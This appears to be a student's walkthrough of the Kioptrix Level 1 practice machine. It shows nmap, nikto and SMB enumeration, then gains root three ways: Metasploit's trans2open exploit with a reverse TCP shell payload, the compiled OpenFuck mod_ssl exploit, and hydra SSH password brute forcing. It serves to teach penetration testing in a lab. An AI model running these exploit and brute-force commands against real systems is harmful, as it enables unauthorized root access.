

# Kioptrix Level 1

# ***SCANNING AND ENUMERATION PHASE***

<aside>
💡 **ARP SCAN
netdiscover -r <IP_ADDRESS(3 octets)> <0 for enum)/subnet
arp-scan -l**

</aside>

After determining IP address which is

<aside>
💡 IP_ADDRESS = 192.168.1.109

</aside>

1) Time to Scan All Ports

<aside>
💡 nmap -T4 -p- -A 192.168.1.109
-T4 ⇒ speed (1 slowest, 5-fastest) fastest may miss so keeping 4
-p- ⇒ scan all ports
-A ⇒ list everything

</aside>

Results:

```jsx
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-24 19:23 PKT
Nmap scan report for 192.168.1.109
Host is up (0.00084s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8746cdbfd8be666e92a2bdf5e6f6486 (RSA1)
|   1024 8f8e5b81ed21abc180e157a33c85c471 (DSA)
|_  1024 ed4ea94a0614ff1514ceda3a80dbe281 (RSA)
|_sshv1: Server supports SSHv1
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
| http-methods: 
|_  Potentially risky methods: TRACE
111/tcp   open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1          32768/tcp   status
|_  100024  1          32768/udp   status
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_ssl-date: 2023-07-24T23:24:11+00:00; +9h00m05s from scanner time.
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-09-26T09:32:06
|_Not valid after:  2010-09-26T09:32:06
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|_    SSL2_DES_192_EDE3_CBC_WITH_MD5
|_http-title: 400 Bad Request
32768/tcp open  status      1 (RPC #100024)
MAC Address: 5C:BA:EF:4C:F7:C3 (Chongqing Fugui Electronics)
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
Network Distance: 1 hop

Host script results:
|_clock-skew: 9h00m04s
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)

TRACEROUTE
HOP RTT     ADDRESS
1   0.84 ms 192.168.1.109

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.54 seconds
```

<aside>
💡 Firstly Testing the Website and we get this

</aside>



<aside>
💡 If the page is a default page, there are two things to think about
1) Are there any directories behind this?

</aside>

2) running ********Nikto******** to test out if there are any web vulnerabilities.

<aside>
💡 nikto -h 192.168.1.109

</aside>

```jsx
nikto -h http://192.168.1.109
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.109
+ Target Hostname:    192.168.1.109
+ Target Port:        80
+ Start Time:         2023-07-24 18:59:08 (GMT5)
---------------------------------------------------------------------------
+ Server: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
+ Server may leak inodes via ETags, header found with file /, inode: 34821, size: 2890, mtime: Thu Sep  6 08:12:46 2001
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ OSVDB-27487: Apache is vulnerable to XSS via the Expect header
+ mod_ssl/2.8.4 appears to be outdated (current is at least 2.8.31) (may depend on server version)
+ OpenSSL/0.9.6b appears to be outdated (current is at least 1.1.1). OpenSSL 1.0.0o and 0.9.8zc are also current.
+ Apache/1.3.20 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ OSVDB-838: Apache/1.3.20 - Apache 1.x up 1.2.34 are vulnerable to a remote DoS and possible code execution. CAN-2002-0392.
+ OSVDB-4552: Apache/1.3.20 - Apache 1.3 below 1.3.27 are vulnerable to a local buffer overflow which allows attackers to kill any process on the system. CAN-2002-0839.
+ OSVDB-2733: Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi. CAN-2003-0542.
+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.
+ Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ ///etc/hosts: The server install allows reading of any system file by adding an extra '/' to the URL.
+ OSVDB-682: /usage/: Webalizer may be installed. Versions lower than 2.01-09 vulnerable to Cross Site Scripting (XSS).
+ OSVDB-3268: /manual/: Directory indexing found.
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /test.php: This might be interesting...
+ /wp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /wordpresswp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
+ /assets/mobirise/css/meta.php?filesrc=: A PHP backdoor file manager was found.
+ /login.cgi?cli=aa%20aa%27cat%20/etc/hosts: Some D-Link router remote command execution.
+ /shell?cat+/etc/hosts: A backdoor was identified.
+ 8724 requests: 0 error(s) and 30 item(s) reported on remote host
+ End Time:           2023-07-24 18:59:27 (GMT5) (19 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

<aside>
💡 We can observe that this is vulenrable to DDoS, buffer overflows, remote shell, XSS, cross site tracing.

</aside>

3) Next Step is ****************************************************************Directory Enumeration. Dirbuster**************************************************************** is the best tool for the task.


As Results come by, we keep enumerating all site and collecting any information we can get.

4) The next target is the ********SMB******** port. We will use ********************Metasploit for this.********************

```jsx
> msfconsole
> search smb type:axuiliary
> use auxiliary/scanner/smb/smb_version
> set RHOSTS 192.168.1.109
> run
```

Results:

```jsx
[*] 192.168.1.109:139     - SMB Detected (versions:) (preferred dialect:) (signatures:optional)
[*] 192.168.1.109:139     -   Host could not be identified: Unix (Samba 2.2.1a)
[*] 192.168.1.109:        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

5) We can try to connect to the system using ********************smbclient.********************

<aside>
💡 Lets try to connect anaonymously
**smbclient -L \\\\192.168.1.109\\**

</aside>

Results:

```jsx
Server does not support EXTENDED_SECURITY  but 'client use spnego = yes' and 'client ntlmv2 auth = yes' is set
Anonymous login successful
Password for [WORKGROUP\wahaj]:

        Sharename       Type      Comment
        ---------       ----      -------
        IPC$            IPC       IPC Service (Samba Server)
        ADMIN$          IPC       IPC Service (Samba Server)
Reconnecting with SMB1 for workgroup listing.
Server does not support EXTENDED_SECURITY  but 'client use spnego = yes' and 'client ntlmv2 auth = yes' is set
Anonymous login successful

        Server               Comment
        ---------            -------
        KIOPTRIX             Samba Server

        Workgroup            Master
        ---------            -------
        MYGROUP              KIOPTRIX
```

<aside>
💡 From this, there are two shares we can connect to but may need password for each.

</aside>

6) The Next Target is ******************SSH port.******************

<aside>
💡 ssh 192.168.1.109 -oKexAlgorithms=+diffie-hellman-group1-sha1 -c aes128-cbc

</aside>

Doesnt get us a lot of useful results since it needs a password

# ***EXPLOITATION***

## 1) Using Metasploit

```jsx
> msfconsole
> search trans2open
> use 1 (linux version)
> set RHOSTS 192.168.1.109
> exploit
// it starts dying maybe staged payloard isnt a good option
> set payload linux/x86/shell_reverse_tcp
> exploit
// in a small while, it shows the root terminal
>whoami
root
```

## 2) Manual Exploitation

```jsx
//Download Exploit
>git clone https://github.com/heltonWernik/OpenFuck.git
// install req
>apt-get install libssl-dev
//get into the repo and compile
>cd OpenFuck
> gcc -o OpenFuck OpenFuck.c -lcrypto
//From Enumeration phase, we know that the server being run is Apache 1.3.20
// so we use that hex 0x6b
> ./OpenFuck 0x6b 192.168.1.109 -c 40

```

And thats it, we have root.

## 3) Bruteforcing SSH

```jsx
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.1.109:22 -t 4 -V
```

-l ⇒ username

-P ⇒ password list

-t ⇒ thread

-V ⇒ verbosity

OR

```jsx
>msfconsole
> search ssh
> use 48
> set rhosts 192.168.1.109
> set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
> set username root
> exploit
```